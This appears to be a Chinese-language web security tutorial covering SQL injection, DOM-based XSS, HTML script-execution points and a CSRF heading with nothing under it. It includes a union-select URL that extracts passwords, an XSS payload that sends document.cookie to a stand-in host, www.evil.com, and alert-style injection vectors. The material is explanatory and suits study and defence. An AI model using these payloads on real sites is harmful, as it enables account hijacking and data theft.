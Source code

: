 ### Sql注入攻击
````javascript
http://www.foo.com/user.php?id=1
get请求目地：
  select username,email,desc1 from users where id=1;

攻击：
  http://www.foo.com/user.php?id=1 union select password,1,1 from users;
````
### XSS跨站脚本攻击
````javascript
前端解析location参数
<script>
eval( location.hash.substr(1) ); // 获取#符号后面的内容
</script>

攻击：
  http://www.foo.com/info.html#new%20Image().src="http://www.evil.com/steal.php?c="+escape(document.cookie);

诱骗用户点击之后，用户所在的网站解析参数
然后加载图片，发起get请求"http://www.evil.com/steal.php?c="+escape(document.cookie)
````
### HTML内嵌脚本执行 `能执行js的位置越多，意味着XSS发生的面越广，XSS漏洞出现的可能性越大`
````javascript
js脚本除了执行在JS格式的文件里，还可以出现在HTML的很多标签中，如下：
<script>alert(1)</script>
<img src=# onerror="alert(1)">
<input type="text" value="x" onmouseover="alert(1)" />
<iframe src="javascript:alert(1)"></iframe>
<a href="javascript:alert(1)">x</a>
````
### CSRF攻击

